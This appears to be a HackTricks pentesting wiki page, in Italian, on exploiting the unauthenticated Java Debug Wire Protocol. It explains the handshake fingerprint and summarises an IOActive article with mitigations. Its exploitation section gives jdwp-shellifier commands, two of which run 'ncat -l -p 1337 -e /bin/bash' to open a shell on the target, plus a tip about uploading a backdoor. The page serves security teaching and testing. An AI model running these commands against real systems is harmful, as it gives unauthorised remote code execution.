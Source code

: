 # Pentesting JDWP - Java Debug Wire Protocol

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche e sfruttabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti permettano di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Sfruttamento

Lo sfruttamento di JDWP si basa sulla **mancanza di autenticazione e crittografia del protocollo**. Si trova generalmente sulla **porta 8000**, ma sono possibili altre porte. La connessione iniziale viene effettuata inviando un "JDWP-Handshake" alla porta di destinazione. Se un servizio JDWP è attivo, risponde con la stessa stringa, confermando la sua presenza. Questo handshake funge da metodo di fingerprinting per identificare i servizi JDWP sulla rete.

In termini di identificazione del processo, cercare la stringa "jdwk" nei processi Java può indicare una sessione JDWP attiva.

Lo strumento principale è [jdwp-shellifier](https://github.com/hugsy/jdwp-shellifier). Puoi usarlo con diversi parametri:
```bash
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 #Obtain internal data
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --cmd 'ncat -l -p 1337 -e /bin/bash' #Exec something
./jdwp-shellifier.py -t 192.168.2.9 -p 8000 --break-on 'java.lang.String.indexOf' --cmd 'ncat -l -p 1337 -e /bin/bash' #Uses java.lang.String.indexOf as breakpoint instead of java.net.ServerSocket.accept
```
Ho scoperto che l'uso di `--break-on 'java.lang.String.indexOf'` rende l'exploit più **stabile**. E se hai la possibilità di caricare un backdoor sull'host ed eseguirlo invece di eseguire un comando, l'exploit sarà ancora più stabile.

## Maggiori dettagli

**Questo è un riassunto di [https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)**. Controllalo per ulteriori dettagli.

1. **Panoramica di JDWP**:
- È un protocollo binario di rete basato su pacchetti, principalmente sincrono.
- Mancano autenticazione e crittografia, rendendolo vulnerabile quando esposto a reti ostili.

2. **Handshake JDWP**:
- Viene utilizzato un semplice processo di handshake per avviare la comunicazione. Una stringa ASCII di 14 caratteri “JDWP-Handshake” viene scambiata tra il Debugger (client) e il Debuggee (server).

3. **Comunicazione JDWP**:
- I messaggi hanno una struttura semplice con campi come Lunghezza, Id, Flag e CommandSet.
- I valori di CommandSet vanno da 0x40 a 0x80, rappresentando diverse azioni ed eventi.

4. **Sfruttamento**:
- JDWP consente di caricare e invocare classi e bytecode arbitrari, ponendo rischi per la sicurezza.
- L'articolo dettaglia un processo di sfruttamento in cinque passaggi, che coinvolgono il recupero dei riferimenti Java Runtime, l'impostazione di breakpoint e l'invocazione di metodi.

5. **Sfruttamento nella vita reale**:
- Nonostante le potenziali protezioni del firewall, i servizi JDWP sono scopribili e sfruttabili in scenari reali, come dimostrato da ricerche su piattaforme come ShodanHQ e GitHub.
- Lo script di exploit è stato testato contro varie versioni di JDK ed è indipendente dalla piattaforma, offrendo un'affidabile Esecuzione Remota di Codice (RCE).

6. **Implicazioni per la sicurezza**:
- La presenza di servizi JDWP aperti su Internet sottolinea la necessità di revisioni di sicurezza regolari, disabilitando le funzionalità di debug in produzione e configurazioni adeguate del firewall.

### **Riferimenti:**

* [[https://ioactive.com/hacking-java-debug-wire-protocol-or-how/](https://ioactive.com/hacking-java-debug-wire-protocol-or-how/)]
* [https://github.com/IOActive/jdwp-shellifier](https://github.com/IOActive/jdwp-shellifier)
* [http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html](http://docs.oracle.com/javase/7/docs/technotes/guides/jpda/architecture.html)
* http://www.secdev.org/projects/scapy(no longer active)
* [http://www.shodanhq.com/search?q=JDWP-HANDSHAKE](http://www.shodanhq.com/search?q=JDWP-HANDSHAKE)
* http://www.hsc-news.com/archives/2013/000109.html (no longer active)
* [http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt](http://packetstormsecurity.com/files/download/122525/JDWP-exploitation.txt)
* https://github.com/search?q=-Xdebug+-Xrunjdwp\&type=Code\&ref=searchresults
* [http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html](http://docs.oracle.com/javase/6/docs/api/java/lang/Runtime.html)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp-spec.html](http://docs.oracle.com)
* [http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html](http://docs.oracle.com/javase/1.5.0/docs/guide/jpda/jdwp/jdwp-protocol.html)
* [http://nmap.org/nsedoc/scripts/jdwp-exec.html](http://nmap.org/nsedoc/scripts/jdwp-exec.html)

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

#### Ottieni la prospettiva di un hacker sulle tue app web, rete e cloud

**Trova e segnala vulnerabilità critiche e sfruttabili con un reale impatto sul business.** Usa i nostri oltre 20 strumenti personalizzati per mappare la superficie di attacco, trovare problemi di sicurezza che ti consentono di elevare i privilegi e utilizzare exploit automatizzati per raccogliere prove essenziali, trasformando il tuo duro lavoro in report persuasivi.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Impara e pratica Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Impara e pratica Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}
